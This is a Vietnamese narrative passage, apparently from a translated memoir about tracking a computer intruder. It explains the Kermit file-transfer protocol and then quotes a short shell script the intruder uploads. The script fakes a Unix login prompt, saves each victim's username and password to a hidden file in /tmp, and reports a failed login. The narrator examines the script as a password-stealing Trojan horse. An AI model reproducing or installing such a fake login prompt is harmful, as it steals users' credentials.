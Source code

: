 Được đặt theo tên của nhân vật chính trong chương trình truyền hình Muppet38 , Kermit là ngôn ngữ lập trình phổ quát để kết nối các máy tính với nhau. Năm 1980, Frank da Cruz của Đại học Columbia cần phải gửi dữ liệu cho một số máy tính khác nhau. Thay vì viết năm chương trình riêng và không hề tương thích với nhau, anh đã tạo ra một tiêu chuẩn duy nhất để trao đổi tệp tin giữa mọi hệ thống. Kermit trở thành quốc tế ngữ của máy tính.

38 The Muppet: Tên một chương trình truyền hình của Mỹ có nhân vật là những con rối được thiết kế ngộ nghĩnh. (BTV) Vừa trệu trạo nhai chiếc bánh sừng bò trong vô thức, tôi vừa theo dõi gã hacker dùng Kermit để chuyển một chương trình ngắn vào máy Unix của chúng tôi. Kermit trung thành lắp ráp lại từng dòng lệnh, và tôi nhanh chóng đọc được một chương trình như sau:

```
echo – n
CHÀO MỪNG ĐẾN VỚI MÁY TÍNH UNIX – 4 CỦA LBL
echo – n
VUI LÒNG ĐĂNG NHẬP
echo – n
ĐĂNG NHẬP: read account_name echo – n
NHẬP MẬT KHẨU: (stty – echo;  read password;  stty echo;  echo _
;_  echo $account_name $password » / tmp/ .pub) echo
XIN LỖI, HÃY THỬ LẠI.
```

Chà! Chương trình gì mà kỳ lạ thế này! 

au khi được cài đặt, chương trình này sẽ nhắc người dùng nhập tên và mật khẩu. Một người dùng bình thường khi chạy chương trình này sẽ thấy trên màn hình máy tính hiện ra những dòng sau:

`CHÀO MỪNG ĐẾN VỚI MÁY TÍNH UNIX – 4 CỦA LBL VUI LÒNG ĐĂNG NHẬP`

Đăng nhập.

Sau đó, thiết bị đầu cuối của người dùng sẽ đợi cho đến khi anh ta nhập xong tên tài khoản rồi hệ thống tiếp tục trả lời:

`NHẬP MẬT KHẨU`.

Một cách tự nhiên, anh ta sẽ gõ mật khẩu ra. Khi đó, chương trình này sẽ đưa cả tên tài khoản và mật khẩu của người dùng kém may mắn trên vào một tệp tin, rồi báo lại với anh ta:

`XIN LỖI, HÃY THỬ LẠI. `

…rồi biến mất.

Trong trường hợp này, hầu hết mọi người đều tưởng rằng mình vừa gõ sai mật khẩu, nên sẽ cố gắng đăng nhập lại. Nhưng tới lúc này, mật khẩu của họ đã bị đánh cắp rồi.

4.000 năm trước, thành Troy sụp đổ khi binh lính Hy Lạp chui vào nấp trong một con ngựa gỗ.

Mang đến một món quà có vẻ hấp dẫn, nhưng lại đánh cắp chiếc chìa khóa an ninh tối quan trọng. Trải qua quá trình hoàn thiện và mài sắc kéo dài nhiều thiên niên kỷ, kỹ thuật này cho đến nay vẫn hiệu quả đối với tất cả mọi người, ngoại trừ những người mắc chứng hoang tưởng thực sự.

Chương trình con ngựa thành Troy của gã hacker làm nhiệm vụ thu thập mật khẩu. Như vậy, vị khách không mời của chúng tôi đang mong mỏi được biết những mật khẩu này đến nỗi dám liều lĩnh cài đặt một chương trình có thể bị phát hiện.

Liệu chương trình này có phải chính là con ngựa thành Troy? Mà không, có lẽ tôi nên gọi nó là con chim nhại thì đúng hơn: một chương trình giả mạo nhưng khoác áo đồ thật. Nhưng tôi không có thời gian để tìm ra những điểm khác nhau – chỉ trong vòng một phút nữa thôi, hắn sẽ sẵn sàng cài đặt chương trình này vào vùng hệ thống và khởi động nó. Tôi phải làm gì đây? Nếu vô hiệu hóa nó, tôi sẽ để lộ ra rằng tôi đang theo dõi hắn. Nhưng nếu tôi không làm gì, thì hễ có người đăng nhập là hắn sẽ đánh cắp thêm được một mật khẩu nữa.
